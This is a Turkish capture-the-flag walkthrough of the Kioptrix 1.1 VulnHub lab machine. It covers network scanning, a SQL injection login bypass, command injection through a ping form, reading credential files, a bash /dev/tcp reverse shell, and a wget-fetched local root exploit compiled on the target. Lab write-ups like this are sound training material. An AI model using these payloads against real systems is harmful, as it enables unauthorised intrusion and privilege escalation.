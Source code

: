 Arkadaşlar merhaba;

Bu yazımda vulnhub.com üzerinde yayınlanmış olan Kioptrix1.1#2 makinasının çözümünü anlatmaya çalışacağım.

###### Linkler : ######
	
http://www.kioptrix.com
https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

###### Çözüm : ######

İlk olarak benim kullandığım VMware’da Kali’mi ve Kioptrix’i ayaklandırıyorum. Tabi ki de yapacağım ilk işlem hedef makinamın IP adresini bulmak olacak. Bunun için ilk önce Kali makinamın IP adresini buluyorum.

    $ ifconfig
![IP Adresi Bulma](/Kioptrix1.1-2/pics/1.png "ifconfig")

Daha sonra Kali’min bulunduğu scope taki IP’leri tarayarak devam ediyorum. 

	$ netdiscover -i eth0 -r 192.168.1.0/24
![Scope Tarama](/Kioptrix1.1-2/pics/2.png "netdiscover")

Ve gördüğümüz gibi IP adresim geldi😊 IP adresimi bulduktan sonra yapacağımız şey hemen bir nmap taraması yapmak olacak ki açık portlardan zafiyet bulabilecek miyim kontrol etmeliyim.
	
	$ nmap -sS -sV 192.168.1.22
![Port Tarama](/Kioptrix1.1-2/pics/3.png "nmap")

Gördüğümüz gibi açık 6 adet port bulunmakta. Burada hemen 80 portunda çalışan http servisi dikkatimi çekiyor ve tarayıcımdan hedef makinanın IP adresini girerek web sitesinde ne var ona bakıyorum. 

![Http Servisi](/Kioptrix1.1-2/pics/4.png "Http Servisi")

Ve karşıma bir admin paneli geliyor. MySQL servisi kullanıldığını da bildiğim için (3306 portu) hemen sql injection denemesi yapıyorum 😊
Bu noktada sayfanın arka planda aşağıdaki gibi bir SQL Query kullandığını düşünerek 

	SELECT * FROM users WHERE username='' AND password=''

Aşağıdaki sql injection kodunu username ve password bölümlerine girerek ,
	
	1’ or ‘1’=’1

Sorguyu aşağıdaki şekle getirmeyi amaçlıyorum:


	SELECT * FROM users WHERE username='1' or '1'='1' AND password='1' or '1'='1'

Eğer tahminim doğruysa basitçe username 1 ise veya 1=1 ise ve password de 1 veya 1=1 ise beni içeri al demiş oluyorum😊 ki herkesin bildiği gibi 1=1 her zaman doğrudur ve sorguyu bu şekilde bypass etmiş olurum.
![Ping Panel](/Kioptrix1.1-2/pics/5.png "Ping Panel")

Mükemmel!  Sorguyu aştık.😊 Karşıma ping atmak için bir komut paneli geldi. Kendi hostuma ping atarak deniyorum.
![Ping Try](/Kioptrix1.1-2/pics/6.png "Ping Try")

Evet ping komutu doğru çalışıyor ve gelen sayfadan gördüğüm üzere (url’ye bakabilirsiniz /pingit.php) sayfa php kodları ile çalışıyor. Ben de hemen bir ; koyarak bypass denemesi yapıyorum.
    
    $ whoami
![whoami](/Kioptrix1.1-2/pics/7.png "whoami")

Oldu! 😊 Sistem komutlarını çalıştırabildiğimi görüyorum ve ilk önce parolaları bulabileceğim /etc/passwd ve /etc/shadow dosyalarını okumaya çalışıyorum.

![etc](/Kioptrix1.1-2/pics/8.png "etc")
![etc](/Kioptrix1.1-2/pics/9.png "etc")

Resimlerden görüldüğü üzere /etc/shadow dosyasını okuyamıyorum. Başka bir yol denemem lazım.
Ben de Reverse Shell almayı deniyorum. 
İlk önce netcat ile 443 portumu dinlemeye açıyorum.

    $ nc -nvlp 443
    
![netcat](/Kioptrix1.1-2/pics/10.png "netcat")

Daha sonra reverse Shell almak için pentestmonkey.net sitesinden bash shellini alıyorum ve kendime göre düzenleyip sitedeki ping command promptuma yazıyorum.

    $ bash -i >& /dev/tcp/192.168.1.22/443 0>&1 (Buradaki ip adresi kalimin ip’si ve port da dinlemeye açtığım port.)
Submit butonuna bastığımda hedef makinaya bağlantı sağlandığını ve yetkisiz bir Shell ile komut çalıştırabildiğimi görüyorum 😊

![Reverse Shell](/Kioptrix1.1-2/pics/11.png "Reverse Shell")

Şimdi yapmam gereken yetki yükseltip sistemde root olmaya çalışmak. Aşağıdaki komutları çalıştırarak hedef makinamın hangi işletim sistemini kullandığını ve versiyon bilgilerini öğreniyorum.

    $  cat /etc/*-release
    $  cat /proc/version
![Version](/Kioptrix1.1-2/pics/12.png "Version")

Versiyon bilgilerini de öğrendiğime göre internette ufak bir Google search ile bu Linux versiyonunda yetki yükseltme sağlayan https://www.exploit-db.com/exploits/9542/ bu exploiti buluyorum. Şimdi exploitimi kendi Kali’me indirip hedef makinaya kendi Kali’mden wget ile çekiyorum.
Bunu yapmak için indirdiğim exploiti kendi Kali’mde /var/www/html dosyasına atıp apache servisimi başlatıyorum ki wget ile ulaşabileceğim internete açık bir sunucu olsun.

    $ service apache2 start ( Bunu kendi Kali’mde yapıyorum. )
    $ cd /tmp ( tmp dizinine geçiyorum ki dosya yazıp okuyabileceğim bir yer olmalı. Bunu hedef makinada yapıyorum exploiti çekeceğim yer burası olacak. )
    $ wget http://192.168.1.23/9542.c ( Bunu Shell ile ulaştığım hedef makinada yapıyorum. )
![wget](/Kioptrix1.1-2/pics/13.png "wget")

Şimdi hedef makinaya yüklediğim exploit kodu C dilinde yazılmış olduğu için GCC ile compile ediyorum ve kodumu çalıştırıyorum. ( Artık exploiti hedef makinaya çektiğim için GCC ile compile ve kodu çalıştırma işlemlerimi hedef makina üzerinde yapıyorum. )

    $ gcc 9542.c 
    $ ./a.out
Daha sonra `whoami` komutu çalıştırdığımda sistemde artık root olduğumuzu görebiliriz.

    $ whoami
![root](/Kioptrix1.1-2/pics/14.png "root")
